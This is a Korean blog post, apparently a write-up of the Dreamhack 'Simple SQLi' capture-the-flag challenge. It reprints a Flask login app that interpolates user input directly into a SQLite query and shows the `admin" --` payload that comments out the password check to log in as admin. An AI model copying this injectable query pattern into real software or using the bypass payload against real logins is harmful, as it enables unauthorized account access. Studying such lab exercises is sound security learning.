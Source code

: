 ```yaml
---
title: "[CTF] 드림핵 Simple SQLi"
date: 2025-09-18 18:40:00 +0900
categories: [CTF, Web]
tags: [CTF, SQLi]
description: "드림핵 Simple SQLi"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 로그인 기능이 있는 간단한 웹앱으로, 입력값을 그대로 SQL 쿼리에 삽입하는 구조였다. 딱 봐도 기본적인 SQL 인젝션(SQLi)이 가능해 보였다.

- `/login` : POST로 받은 `userid`, `userpassword`를 이용해 다음과 같은 쿼리를 수행한다.  
  ```sql
  select * from users where userid="{userid}" and userpassword="{userpassword}"
  ```
- 쿼리 결과에서 `userid == 'admin'`이면 FLAG를 반환한다.

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

---

## 내가 실제로 푼 방법
소스코드를 확인하자마자 SQL 인젝션 포인트가 뻔히 보였다.

```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

조건에서 `userid == 'admin'`일 때 FLAG를 주기 때문에, admin 계정이 존재함을 알 수 있다. 그렇다면 `userid` 입력에 `"--`를 사용해 뒤를 주석 처리하면 쉽게 우회할 수 있다.

### 내가 사용한 입력값
- `userid`:  
  ```
  admin" --
  ```
- `userpassword`:  
  ```
  아무거나
  ```

### 최종 실행된 쿼리
```sql
select * from users where userid="admin" -- " and userpassword="아무거나"
```

이 구문은 뒤가 주석 처리되면서 단순히:
```sql
select * from users where userid="admin"
```
으로 축약된다.

결과적으로 admin 사용자의 데이터가 반환되고, FLAG를 획득할 수 있었다.

---

## 재현 흐름
1. 공격자: `/login`에서 userid에 `admin" --`, pw에 아무 값 입력  
2. 서버: 최종 쿼리는 `select * from users where userid="admin"`  
3. 쿼리 결과 admin 계정 반환  
4. 조건문 `if userid == 'admin'` → FLAG 출력  
5. 공격자: FLAG 확인 성공

---

## 왜 이게 가능했나
입력값을 이스케이프 없이 그대로 SQL 문자열에 삽입하여 기본적인 SQLi가 발생했기 때문이다.

---

## 마무리
simple_sqli 문제는 정말 기본적인 SQL 인젝션 예제였다. 가장 전형적인 `"--` 주석 처리 기법으로 admin 계정에 접근해 FLAG를 획득했다.
